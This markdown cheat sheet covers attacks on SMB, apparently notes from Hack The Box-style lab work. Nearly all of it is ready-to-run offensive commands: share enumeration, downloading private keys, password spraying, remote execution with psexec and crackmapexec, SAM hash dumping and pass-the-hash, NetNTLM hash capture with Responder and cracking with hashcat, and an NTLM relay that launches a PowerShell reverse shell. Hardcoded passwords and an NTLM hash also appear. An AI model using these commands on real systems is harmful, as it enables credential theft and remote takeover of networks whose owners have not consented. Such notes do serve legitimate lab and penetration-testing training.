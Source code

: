 ```yaml
---
edit:
tools:['smbmap', 'rpcclient']
---
```


# SMB

## File Share enumeration

```bash
# Listing
smbclient -N -L //$htb

# Listing with perms
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
smbmap -H $htb
smbmap -H $htb -r GGJ

# Download | upload a file
smbmap -H $htb --download "GGJ\id_rsa"
smbmap -u jason -p '34c8zuNBo91!@28Bszh' -H 10.129.203.6 --download "GGJ\id_rsa"
smbmap -H $htb --upload test.txt "GGJ\test.txt"

# rpcclient
rpcclient -U'%' 10.129.203.6
rpcclient $> enumdomusers
user:[jason] rid:[0x3e8]
user:[robin] rid:[0x3e9]

# enum4linux
./enum4linux-ng.py 10.10.11.45 -A -C
```

## Password attacks

```bash
# Spray with crackmapexec
crackmapexec smb 10.129.203.6 -u users.list -p pws.list --local-auth
```

## Exec

```bash
# Impacket - smbexec or atexec
impacket-psexec administrator:'liverpool'@10.129.203.6

# Crackmap
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerate users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Extract hashes & PtH
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## Forced Authentication

### Capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)

If all name resolutions will fail because the name does not exist, and the  machine will send a multicast query to all devices on the network,  including a fake SMB server. 

```bash
# Start responder - logs --> /usr/share/responder/logs/
sudo responder -I <interface name>

# Crack NTLMv2
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### Hash relay

PowerShell reverse shell using https://www.revshells.com/, Powershell #3 (Base64).

```bash
# Turn off smb in responder
cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off

# Execute reverse shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e'
```

## Vulns

- SMB v3.1.1: [SMBGhost](https://arista.my.site.com/AristaCommunity/s/article/SMBGhost-Wormable-Vulnerability-Analysis-CVE-2020-0796) with the [CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796).
- 
